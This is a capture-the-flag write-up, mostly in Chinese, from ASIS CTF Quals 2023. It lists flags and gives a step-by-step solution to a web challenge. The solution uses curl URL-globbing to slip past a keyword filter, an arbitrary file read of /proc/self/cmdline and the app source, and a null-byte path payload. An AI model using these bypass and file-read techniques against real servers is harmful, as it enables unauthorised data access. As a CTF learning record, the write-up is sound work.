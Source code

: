 # ASIS CTF Quals 2023 Writeup

- Team name：`clpcs`

## Greetings

- Flag：`ASIS{w3lc0m3_70_4S1S_C7F!_H3r3'5_70_4n_3xc171n6_4nd_ch4113n63_3xp3r13nc3!}}`

### 解題流程與思路
簽到題。

**解題過程：**
COPY & PASTE

**取得 flag 的畫面：**
![Greetings_flag](image/Greetings_flag.png)

## hello

- Flag：`ASIS{good_job_bun}`

### 解題流程與思路

**解題過程：**
1. 給了一個網址，直接連看看 `curl http://45.147.231.180:8000`
2. 得到一份 `php` code 如下，可以知道目標是要取得 `/next.txt`，且於網址中加入 `x` 參數會被拿去 check 是否包含 `file`、`next`，如無責該網頁會執行 `system('curl '.escapeshellarg($_GET['x']))`，可以以 Server 的身分取得某個東西，且因為 escapeshellarg 只能被當成一個參數。
    ```php
    <?php
    /*
    Read /next.txt
    Hint for beginners: read curl's manpage.
    */
    highlight_file(__FILE__);
    $url = 'file:///hi.txt';
    if(
        array_key_exists('x', $_GET) &&
        !str_contains(strtolower($_GET['x']),'file') && 
        !str_contains(strtolower($_GET['x']),'next')
    ){
        $url = $_GET['x'];
    }
    system('curl '.escapeshellarg($url));
    ```
3. 透過 `curl file:///next.txt` 即可取得目標，但會被判到 `file`、`next`，再詳閱 manpage 後發現可以透過 `curl fil[e-f]:///n[e-f]xt.txt` 的方式使 `curl` 訪問 `file:///next.txt`、`file:///nfxt.txt`、`filf:///next.txt`、`filf:///nfxt.txt`，且可以避開字串判斷。
4. 透過 unicode encode `fil[e-f]:///n[e-f]xt.txt` 後，放進 `x`。`curl http://45.147.231.180:8000?x=fil%5Be-f%5D%3A%2F%2F%2Fn%5Be-f%5Dxt.txt`，即可得到以下資訊。
    ```
    wow... so next step is available at http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/
    ```
5. `curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/`，會得以下資訊，得知這個 server 有訪問檔案的功能。
    ```
    did you know i can read files?? amazing right,,, maybe try /39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/proc/self/cmdline
    ```
6. `curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/proc/self/cmdline | base64 -d`，出來的解果明顯為 base64 過的值，因此先解回去，而 `/proc/self/cmdline` 放的為執行此 `proc` 時是 command。
    ```sh
    /bin/bun-1.0.2/app/index.js
    ```
7. 而此解果應該為 `/bin/bun-1.0.2 /app/index.js`，所以透過該 Server 取得 `/app/index.js`，`curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/app/index.js | base64 -d`即可獲得 `index.js`
    ```java
    const fs = require('node:fs');
    const path = require('path')

    /*
    I wonder what is inside /next.txt
    */

    const secret = '39c8e9953fe8ea40ff1c59876e0e2f28'
    const server = Bun.serve({
    port: 8000,
    fetch(req) {
            let url = new URL(req.url);
            let pname = url.pathname;
            if(pname.startsWith(`/${secret}`)){
        if(pname.startsWith(`/${secret}/read`)){
            try{
            let fpath = url.searchParams.get('file');
            if(path.basename(fpath).indexOf('next') == -1){
                return new Response(fs.readFileSync(fpath).toString('base64'));
            } else {
                return new Response('no way');
            }
            } catch(e){ }
            return new Response("Couldn't read your file :(");
        }
        return new Response(`did you know i can read files?? amazing right,,, maybe try /${secret}/read/?file=/proc/self/cmdline`);
        }
        return
    }
    });
    ```
8. 可以得知目標為 `/next.txt`，且會透過 `path.basename(fpath).indexOf('next') == -1` 確認檔名是否包含 `next`。
9. 由於 `basename` 只會取最後一個 `/` 後的字串，而 `readFileSync` 使用的完整得 path 且字串通常看到 `'\0'` 就會判斷結束，可以基於這些理由構造一個字串。`curl http://45.147.231.180:8001/39c8e9953fe8ea40ff1c59876e0e2f28/read/?file=/next.txt%00/1 | base64 -d`，即可取得以下資訊。
    ```
    Now it's time for a whitebox challenge.
    Find the hidden subdomain and then a secret endpoint and only then you may receive your flag.
    Link to the website: `anVzdCBraWRkaW5nLiBBU0lTe2dvb2Rfam9iX2J1bn0gCg==`
    ```
10. 再解一次 base64 即可取得 flag `echo 'anVzdCBraWRkaW5nLiBBU0lTe2dvb2Rfam9iX2J1bn0gCg==' | base64 -d`
**取得 flag 的畫面：**
![hello_flag](image/hello_flag.png)

## Grid (比賽中主要 codding 人為隊友)

- Flag：`ASIS{7Hi5_!Z_4n0tH3R_Ea5Y_WaRmUpUp_cHALleN9E!!}`

### 解題流程與思路

**解題過程：**

**取得 flag 的畫面：**
![Grid_flag](image/Grid_flag.png)

## Renamiara (未於賽中解出)

- Flag：`ASIS{_An07H3r_F1XeD_PoInt5_f0r_DLP!!}`

### 解題流程與思路

**解題過程：**

**取得 flag 的畫面：**
![Renamiara_flag](image/Renamiara_flag.png)

## hipwn (未於賽中解出)

- Flag：``

### 解題流程與思路

**解題過程：**

**取得 flag 的畫面：**
